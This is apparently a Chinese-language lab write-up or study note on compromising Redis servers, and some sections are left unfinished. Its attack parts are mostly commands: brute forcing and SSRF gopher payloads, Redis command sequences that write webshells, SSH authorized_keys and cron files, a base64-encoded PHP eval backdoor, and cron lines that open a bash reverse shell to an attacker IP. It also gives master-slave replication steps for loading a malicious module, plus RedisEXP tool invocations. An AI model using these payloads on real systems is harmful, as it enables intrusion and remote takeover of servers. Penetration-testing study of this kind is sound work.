


## redis简介

* Redis的数据存储在内存中，读写速度极快，常用作缓存服务
* Redis支持多种数据类型，包括：
  - 字符串（String）
  - 列表（List）
  - 集合（Set）
  - 有序集合（Sorted Set）
  - 哈希（Hash）
  - 位图（Bitmap）
  - HyperLogLog
  - Streams
* Redis也支持数据持久化，可以将内存中的数据定期快照（RDB）或以追加方式记录（AOF），确保数据在系统崩溃后能够恢复
* 通过主从复制（Master-Slave Replication）和哨兵（Sentinel）模式，Redis可以实现高可用性，自动故障转移。主从复制也可被攻击者用于提权。
* Redis支持简单的事务机制，可以通过`MULTI`、`EXEC`和`DISCARD`命令实现多个操作的原子性
* Redis支持在服务器端执行Lua脚本，能够批量执行多个命令，提高效率

## 如何打入redis

### redis未授权访问

* Redis2.x和3.x版本在**默认情况下没有启用访问控制**，这意味着如果Redis实例没有经过适当配置，任何人都可以通过网络连接访问Redis，并执行redis的命令
* 在高版本下，redis**默认情况下没有启用访问控制**，但是默认开启protected-mode：
  * 默认只能本地访问
  * 如果开启远程访问，必须设置密码


在实战过程中很容易判断redis是否启用访问控制，所以这里不再复现

### redis爆破

如果redis开启了访问控制，最直接获取其权限的方式就是爆破，这里推荐使用工具[yuyan-sec/RedisEXP: Redis 漏洞利用工具 (github.com)](https://github.com/yuyan-sec/RedisEXP)，这是一个redis的综合利用工具，除了这里的爆破，后面还会用到它

```shell
# 爆破redis
RedisEXP_windows_amd64.exe -m brute -r 192.168.110.179 -p 6379 -f pass.txt
```

* redis原生是没有用户名 - 密码认证模式的，默认情况下只有密码没有用户名

### ssrf打redis

在后面的复现过程中可以发现，高版本的redis默认情况下远程访问必须设置密码，而本地访问仍可以不设置密码，所以现在未授权的情况很多时候都是通过SSRF来打。

利用ssrf打redis的核心就是通过dict或者gopher等协议构造redis的使用的RESP协议与redis通信。

RESP协议比较简单，这里不多介绍，或者说更简单粗暴地方式是，直接通过wireshark抓包，都是明文的ascii字符。

或者更简单地，直接使用工具，这个工具会根据我们的redis命令直接生成gopher请求

```shell
RedisEXP_windows_amd64.exe -m gopher -r 127.0.0.1 -p 6379 -f getshell
```

```txt
# getshell内容
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
bgsave
quit
```


这里有两个坑点：

1. 注意`gopher://ip:port/数据`的是数据部分是需要url编码的，当我们在web端通过ssrf打redis时，在一些情况下（例如触发ssrf的参数在url的query参数里），后端是会自动进行url解码的，这就要求我们将数据部分进行双重url编码

```php
// 后端示例代码
<?php
$url = $_GET['ssrf']; // 替换为目标 URL

echo $url."\n";
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$response = curl_exec($ch);
curl_close($ch);

echo $response; // 输出响应内容
?>
```

当我们的请求如下时，解码后的gopher请求实际上是不正确的，这里也没有响应：


进行双重url编码后就有了响应：


2. 注意到上面的payload中的quit命令，当我们直接通过命令行发起gopher请求时就类似于使用telnet发起了一个tcp请求，要中断这个请求，要么客户端Ctrl+C，要么输入quit命令让服务端中断。在通过ssrf攻击redis时，如果tcp连接一直不断开，那么请求结果将会一直不返回，所以我们需要使用quit命令主动让redis-server断开连接。

   

### redis注入命令

## 拿到redis权限后如何进一步提权

基本上分为三类：

* 利用redis写数据备份文件实现任意文件写，除了下面三个例子外，还可以写/etc/passwd等（写入时的乱码对我们可能有一些限制）
* 主从复制
* cve lua脚本的沙箱逃逸

### 写webshell

条件：
* 知道网站绝对路径
* 可以任意写文件
  * 需要该目录下的增删改查权限（这个一般需要redis以root权限运行或者于web服务器以相同的用户权限运行，还要防止selinux等一些权限控制系统，我在实验时通过apt包管理安装的redis默认运行在自动创建的用户redis下）
  * 在6.x版本及以后，需将配置文件中的enable-protected-configs设置为yes，这个配置默认为no限制了我们使用config set dir

这里搭建了一个简单的php站点，路径在`/www/wwwroot/192.168.110.177`下

```shell
# 设置要写入shell的路径
config set dir /www/wwwroot/192.168.110.177
# 对一个key写入webshell
set webshell "\n\n\n<?php phpinfo() ;?>\n\n\n"
# 持久化文件的文件名
config set dbfilename phpinfo.php
# 保存key
save
```

这里一般写入长度较短的小马没啥问题，要是写入的webshell长度过长，可能会遇到一些问题，详情参考文章：

[原创 Paper | Windows 与 Java 环境下的 Redis 利用分析 (qq.com)](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)

工具：

```shell
# -s后是写入的内容的base64，-b是解码选项
# 这个命令应该是比较通用的，写任意文件，不止写webshell
RedisEXP_windows_amd64.exe -m shell -r ip -p port -w password -rp /website/path -rf webshellfilename -s XG5cblxuPD9waHAgZWNobyBldmFsKCRfR0VUWydzaGVsbCddKTs/PlxuXG5cbg== -b
```

### 写ssh-keygen公钥

条件：

* 和写webshell一样指定目录写文件的权限
* 目标开放ssh服务，而且允许使用秘钥登录

我们在攻击机上通过ssh-keygen -t rsa生成我们的证书，下图的id_rsa.pub就是公钥


.ssh一般在~/.ssh，每个用户都有自己的专属目录，这里我们简单介绍一下.ssh目录下的文件：

* id_rsa，私钥文件，ssh服务端用它相对应的公钥来验证用户是否合法
* id_rsa，公钥文件
* known_hosts，存储客户端曾经连接过的ssh服务器主机信息
* authorized_keys，存放允许连接到服务器的客户端公钥，可以存放多个公钥
* config，自定义ssh客户端配置

```shell
# 这一步有时候有权限也不成功，可能是由于该目录不存在
config set dir /root/.ssh
config set dbfilename authorized_keys
# .....替换为ssh证书的公钥
# 这里有一个坑点，我们需要\n防止乱码的影响，但在redis-cli的交互模式下，\n不会被解析为换行，我们可以通过脚本或者echo "\n"|redis-cli set xxx来实现
set xxx "\n......\n"
save
```

工具：

```shell
# 公钥两边的引号不要省略
RedisEXP_windows_amd64.exe -m ssh -r ip -p port -w password -u user -s "自己的公钥"
```

### 写计划任务

条件：

* 指定目录写文件的权限

* 系统限制

  * 这里在网上看到一些文章说ubuntu不适用而centos适用，因为
    * ubuntu的计划任务在/var/spool/cron/crontabs/下，要求权限为600才能正确被执行，而redis写入文件默认为644，centos则没有这个要求
    * centos的计划任务中可以有乱码，而ubuntu不行
  * 对于权限问题，ubuntu在/etc/cron.d目录下也可以写，而且没有权限限制
  * 但是对于乱码问题，Ubuntu对于定时计划有严格的格式要求，这里无法解决。

  

```shell
#设置保存路径，centos的计划任务路径
config set dir /var/spool/cron/crontabs/ 
config set dbfilename shell 
#反弹shell
set xz "\n * bash -i >& /dev/tcp/192.168.33.131/8888 0>&1\n" 
```

工具：

```shell
# 注意，这个工具会清除目标redis的数据，因为主从同步会同步数据
# 也不是无法避免，先把目标redis拖库，然后恢复
RedisEXP_windows_amd64.exe -m cron -r 目标ip -p 目标端口 -w password -L 反连ip -P 反连端口
```

### redis主从复制getshell

> Redis如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。
>
> 在全量复制过程中,恢复rdb文件,如果我们将rdb文件构造为恶意的exp.so,从节点即会自动生成相同的文件,而在Redis4.x之后的版本，Redis新增了模块功能，可以加载外部.so文件，使得我们可以借此RCE

主从复制实际上也是通过写文件实现的rce，而且相较之前的save生成备份文件，有一个优势是，这个文件内容我们是完全可控的，所以主从复制同样可以结合之前的写webshell、ssh公钥、计划任务实现rce，而且成功率更高。

这里主要介绍新的rce的方式，利用redis4.x后的模块功能，这样getshell相对于之前在权限方面的限制少很多，而且对于部署在docker容器内的redis也同样适用（当然只能get到容器内的shell）。

利用的条件：

* 可以通过主从复制实现任意文件上传
  * 在6.x版本及以后，需将配置文件中的enable-protected-configs设置为yes，这个配置默认为no限制了我们使用config set dir
  * 要上传的目录有权限（对于加载模块rce来说，这一点比较容易满足）
* 可以加载模块
  * redis 4.x以后
  * 某些版本（没有具体测试），满足 enable-module-command的要求 
  * 某些版本（4.0.9不需要，7.0.15需要，其他没具体测），要求加载的.so文件有执行权限，那这些版本就没办法利用了

这里先复现主从复制的任意文件上传：

由于需要构建一个恶意的redis服务器这里就直接用工具了

```shell
# 这里是写了一个ubuntu下的计划任务反弹shell
RedisEXP_windows_amd64.exe -m upload -r 目标ip -p 目标port -w password -L 本地ip -P 本地port -rp /etc/cron.d -rf getshell -lf .\getshell
```

关于写的计划任务的内容，ubuntu的计划任务文件有个坑点，要求结尾必须有换行（这也看出了ubuntu下的计划任务格式之严格），但是如果只有换行，反弹的shell又会有错误的重定向的报错，解决方法是加上分号后再换行


```txt
# 这里结尾的分号和换行不能省略
*/1 * * * * root /bin/bash -i >& /dev/tcp/192.168.110.80/9001 0>&1;

```

我们通过抓包看看这个过程发生了啥，主要分为两个部分，第一部分是在目标redis上进行一些操作，包括设置dir、dbfilename、将目标设置为恶意服务器的从服务器等，设置从服务器很简单的一条命令`slaveof 恶意服务ip 端口`


设置为从服务器后，它就开始自动同步，下面是抓到的数据，注意到FULLRESYNC指令发出后，我们响应的内容就是要写入的恶意文件

```txt
*1
$4
PING
+PONG
*3
$8
REPLCONF
$14
listening-port
$4
6379
+OK
*5
$8
REPLCONF
$4
capa
$3
eof
$4
capa
$6
psync2
+OK
*3
$5
PSYNC
$40
6e6627bea2ed66a68f10c683274786ece8281581
$4
4187
+FULLRESYNC 0000000000000000000000000000000000000000 1
$69
*/1 * * * * root /bin/bash -i >& /dev/tcp/192.168.110.80/9001 0>&1;


```


利用模块功能加载恶意dll或so，实现rce：

前提是通过主从复制加载了一个恶意的dll或者so，但是这个过程的权限要相较于之前的写webshell等操作是宽松很多的，因为我们的恶意so最终是加载进redis使用的。

同样的，我们先用工具测试

```shell
# 通过主从复制上传恶意exp.so，加载后获得shell，执行whoami
RedisEXP_windows_amd64.exe -m rce -r 192.168.110.177 -p 6379 -w foobared -L 192.168.110.226 -P 2222 -c whoami -rf exp.so
```

从工具的输出我们可以看到两点，1，写入恶意so的目录和redis原本的dir设置是一致的（从工具的源码也可以看出），这就意味着一般情况下，redis都是有权限写入的；2，我的redis版本较高，7.0.15，这里因为enable-module-command的设置，造成了无法加载模块

### 

在我更改了设置后，仍然报错



查看日志，显示exp.so没有可执行权限，所以无法加载


将redis版本降低到4.0.9后就可以了


### CVE-2022-0543

这个漏洞不是redis本身的问题，而是Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。所以，其实相对于是之前介绍的几种利用方式，个人觉得其利用面较窄。

这里就不具体分析了，参考[vulhub/redis/CVE-2022-0543/README.zh-cn.md at master · vulhub/vulhub (github.com)](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.zh-cn.md)，复现也使用该环境。

直接工具一把梭

```shell
RedisEXP_windows_amd64.exe -m cve -r ip -p port -w password -c pwd
```


## 其他用法

* 探测目录
  * 利用config set dir，前提是有权限，若目录不存在会返回`(error) ERR Changing directory: No such file or directory`
* 通过dll劫持获取rce，核心还是主从复制的任意文件上传，由于dll劫持笔者不太了解，这里就不多介绍了

## 总结

* 关于权限要求这一点，我有点不能理解，我的实验环境是在ubuntu2024的桌面版下，在写入文件时redis以root权限运行才能写入成功，setfacl设置了redis用户操作目录的权限或一个目录权限设置为777，可以`config set dir`成功，但是写入不成功




## 工具分析

## 实战案例

### redis到shiro反序列化

